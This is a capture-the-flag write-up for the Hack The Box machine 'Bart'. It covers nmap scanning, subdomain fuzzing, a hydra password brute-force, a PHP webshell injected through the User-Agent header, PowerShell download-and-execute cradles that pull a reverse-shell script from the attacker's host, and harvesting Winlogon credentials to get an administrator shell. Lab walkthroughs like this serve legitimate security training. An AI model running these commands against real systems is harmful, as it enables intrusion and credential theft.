# [Bart](https://app.hackthebox.com/machines/bart)

```bash
nmap -p- --min-rate 10000  10.10.10.81 -Pn
```



After knowing open port is just 80, let's do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.10.81 -Pn
```



While we browse the page, it redirects into 'forum.bart.htb' , let's add this into '/etc/hosts' file.




From page itself 'http://forum.bart.htb/', we grab some usernames.



Let's do subdomain enumeration for 'bart.htb' server.

```bash
ffuf -u http://bart.htb/ -H "Host: FUZZ.bart.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```




Let's access into 'internal-01.bart.htb'




On this page, I see that I cannot access into 'register.php' page via browser.



Let's try to brute-force password of 'harvey' user.

```bash
hydra -l harvey -P /usr/share/wordlists/rockyou.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```




From this result , we see that harvey: Password1 credentials works.

From enumeration, I see that this is the page which shows data from 'User-Agent' of requester.




I add my malicious webshell into this request 'User-Agent' header like below.
```bash
User-Agent: dr4ks: <?php system($_REQUEST['cmd']); ?>
```






Our malicious webshell is now working, let's add our malicious reverse shell.

First, we download `Invoke-PowershellTcp.ps1` file into our machine, then add our stuff.




Now, it's time open HTTP server to transfer our malicious file.

```bash
python3 -m http.server --bind 10.10.14.9 8080
```




```bash
?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8080/Invoke-PowerShellTcp.ps1')
```



I got reverse shell from listener.




Now, I do enumeration for root user, let's search 'Winlogon' to find cleartext credentials.

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```



Administrator: 3130438f31186fbaf962f407711faddb


Now, I have cleartext credentials. To be admin, I need to do below steps.


First, I create my reverse shell file and opens http server.



```bash
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8080/Invoke-PowerShellTcp.ps1') } -Credential $cred -Computer localhost
```




I got administrative reverse shell.




user.txt




root.txt

